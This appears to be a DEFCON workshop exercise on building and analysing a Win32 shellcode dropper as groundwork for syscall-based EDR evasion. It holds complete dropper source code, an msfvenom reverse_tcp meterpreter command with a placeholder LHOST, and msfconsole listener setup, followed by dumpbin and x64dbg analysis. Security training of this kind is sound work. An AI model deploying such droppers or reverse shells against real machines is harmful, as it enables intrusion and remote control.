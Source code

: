 ## Exercise 2: Win32 Dropper
In **Exercise 2** we will create our first shellcode dropper based on **high level APIs** or **Win32 APIs**. This dropper will more or less be the reference for further development into a direct syscall and indirect syscall dropper. Later in this text we call the Dropper Win32-Dropper. If you look at the figure below, you will see that we do not use direct or indirect syscalls at all. Instead we use the normal legitimate way like ``malware.exe`` -> ``Win32 APIs (kernel32.dll)`` -> ``Native APIs (ntdll.dll)`` -> ``syscall``.  
<details>
     <p align="center">
<img width="674" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a7687c96-e4cd-45ca-a60e-2d7e53a24d2b">
</p>
</details>
     
## Exercise 2 tasks:
1. Download the Win32-Dropper poc from the Code section of this chapter.
2. In this case the code is already implemented in the poc. Your task is to create x64 meterpreter shellcode, copy it into the poc and compile it.
3. Create and run a staged x64 meterpreter listener using msfconsole.
4. Run your compiled .exe and check that a stable command and control channel opens. 
5. Use the Visual Studio **dumpbin** tool to analyse the Win32-Dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
6. Use **x64dbg** to debug or analyse the Win32-Dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected?


## Visual Studio
You can download the poc from the code section of this chapter. The technical functionality of the Win32-Dropper is relatively simple and therefore, in my opinion, perfectly suited to gradually develop the Win32-Dropper into a Low-Level-Dropper using direct system calls. In the Win32-Dropper we use the following Win32 APIs 
- VirtualAlloc
- WriteProcessMemory
- CreateThread
- WaitForSingleObject

The code works like this. First, we need to define the thread function for shellcode execution later in the code.
<details>
    
```
// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}
```
 </details> 
 

Within the main function, the variable **code** is defined, which is responsible for storing the meterpreter shellcode. The content of "code" is stored in the .text (code) section of the PE structure or, if the shellcode is larger than 255 bytes, the shellcode is stored in the .rdata section.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
The next code block defines the function pointer **void***, which points to the variable **exec** and stores the return address of the allocated memory using the Windows API VirtualAlloc.
<details>
    
```
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
 </details>   


The meterpreter shellcode is then copied to the allocated memory using the Windows API **WriteProcessMemory**.
<details>

```
// Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
```
</details>
    

Next, the Windows API **CreateThread** is used to execute the meterpreter shellcode. This is done by creating a new thread.<p align="center">
<details>
    
```
// Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL); 
```
</details>

    
And by using the Windows API **WaitForSingleObject** we need to make sure that the shellcode thread completes its execution before the main thread exits.
<details>  
    
```
// Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);    
```
</details>    

    
Here is the **complete code**, but you can also find it already implemented in the code poc of this chapter.
<details>
    
```
#include <stdio.h>
#include <windows.h>

// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}

int main() {
    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);

    // Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);

    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
In this step, we will create our meterpreter shellcode for the Win32-Dropper poc with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
**kali>**       
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>
    
The shellcode can then be copied into the Win32-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.
<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>
    

## MSF-Listener
Before we test the functionality of our Win32-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled high_level_dropper.exe. If all goes well, you should see an incoming command and control session 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## Win32-Dropper analysis: dumpbin
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>
    
**cmd>**  
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports high_level.exe
```
</details>
    
<details>
    <summary>Solution</summary>   
In the case of the Win32-Dropper, you should see that the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are correctly imported into the Win32-Dropper from the kernel32.dll.
<p align="center">
<img width="693" alt="image" src="https://user-images.githubusercontent.com/50073731/235369396-dbad1178-e9a2-4c55-8c6a-fdc9362d864c.png">
</p>
</details>

    
## Win32-Dropper analysis: x64dbg
The first step is to run your Win32-Dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the Win32-Dropper directly in x64dbg you need to run the assembly first.
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/1d7959d0-9a35-451d-be18-826f4a832737">
</p>            
</details>    


First we want to check which APIs (Win32 or Native) or if the correct APIs are being imported and from which module or memory location. 
Remember that no direct syscalls or similar are used in the Win32-Dropper. What results do you expect?
     
<details>
    <summary>Solution</summary>
Checking the imported symbols in our Win32-Dropper, we should see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are imported from kernel32.dll. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/93836da7-aaf0-412d-8871-6cea88b00d83">   
<img width="800" alt="image" src="[https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/93836da7-aaf0-412d-8871-6cea88b00d83](https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/facd43e5-6cb6-44b7-b17b-0dfd8faab28a)">
</p>        
We use the "Follow imported address" function in the Symbols tab by right-clicking on one of the four Win32 APIs used, e.g. Virtual Alloc, and we can see that we jump to the location of kernel32.dll.
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/55b64891-6e31-4f1b-b566-30489fb41c7b">
</p>
In the next step we use the function Follow in Dissassembler to follow the memory address that jumps to the memory of the kernelbase.dll.  
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/fa540f58-b748-45c7-9ee0-4f55821709f7">
</p> 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/992e3162-84cc-480b-ade9-e17d6541ba48">
</p>
Then we use the Follow in dissassembler function again and follow the address that calls the native function Nt* or ZwAllocateVirtualMemory from a memory location in ntdll.dll      
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/667441cb-d9ae-43d3-969e-35be8dbab5da">
</p>        
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/456e8c76-32bc-4115-8154-61630a8e87c5">
</p>
As expected, we go the normal way via ``malware.exe`` -> ``kernel32.dll`` -> ``kernelbase.dll`` -> ``ntdll.dll`` -> ``syscall``.     
</details>     

We also want to check from which module or memory location the syscall stub of the native functions used is implemented, and also check from which module or memory location the syscall statement and return statement are executed.
<details>
    <summary>Solution</summary>
     The following illustration shows, that the syscall instruction and the return instruction are executed from a memory region in ntdll.dll as expected.          
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/0701e142-1dd8-4a18-91f8-bf32d6b66315">          
</p>            
</details>     


   
## Summary: Win32-Dropper
- No direct system calls at all
- Syscall execution via normal transition from high_level_dropper.exe -> kernel32.dll -> ntdll.dll -> syscall
- Win32-Dropper imports Windows APIs from kernel32.dll...
- ...then accesses or imports the native functions from ntdll.dll...
- ...and finally executes the code of the corresponding native function, including the syscall instruction.  
- If an EDR uses user mode hooking in kernel32.dll or ntdll.dll, the contents of malware.exe are redirected to the EDR's hooking.dll.

